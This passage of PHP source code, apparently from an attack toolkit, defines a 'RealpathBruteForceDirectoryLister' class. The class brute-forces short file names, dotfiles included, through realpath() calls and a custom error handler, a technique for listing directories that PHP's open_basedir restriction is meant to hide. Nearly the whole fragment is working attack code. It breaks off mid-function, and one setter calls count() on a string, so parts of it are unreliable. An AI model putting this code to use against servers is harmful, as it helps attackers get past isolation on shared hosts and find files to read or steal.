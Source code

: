 ```php
		foreach ($it as $f) {
			$file_list[] = $f->__toString();
		}
		sort($file_list);
		return $file_list;
	}
}
 
class RealpathBruteForceDirectoryLister extends DirectoryLister {
	var $characters = 'abcdefghijklmnopqrstuvwxyz0123456789-_'
	, $extension = array()
	, $charactersLength = 38
	, $maxlength = 3
	, $fileList = array();
 
	function isAvailable() {
		return ini_get('open_basedir') && function_exists('realpath');
	}
	function getDescription() {
		return 'Directory listing via brute force searching with realpath function.';
	}
	function setCharacters($characters) {
		$this->characters = $characters;
		$this->charactersLength = count($characters);
	}
	function setExtension($extension) {
		$this->extension = $extension;
	}
	function setMaxlength($maxlength) {
		$this->maxlength = $maxlength;
	}
	function getFileList() {
		set_time_limit(0);
		set_error_handler(array(__CLASS__, 'handler'));
		$number_set = array();
		while (count($number_set = $this->nextCombination($number_set, 0)) <= $this->maxlength) {
			$this->searchFile($number_set);
		}
		sort($this->fileList);
		return $this->fileList;
	}
	function nextCombination($number_set, $length) {
		if (!isset($number_set[$length])) {
			$number_set[$length] = 0;
			return $number_set;
		}
		if ($number_set[$length] + 1 === $this->charactersLength) {
			$number_set[$length] = 0;
			$number_set = $this->nextCombination($number_set, $length + 1);
		} else {
			$number_set[$length]++;
		}
		return $number_set;
	}
	function searchFile($number_set) {
		$file_name = 'a';
		foreach ($number_set as $key => $value) {
			$file_name[$key] = $this->characters[$value];
		}
		// normal files
		realpath($this->getCurrentPath() . $file_name);
		// files with preceeding dot
		realpath($this->getCurrentPath() . '.' . $file_name);
```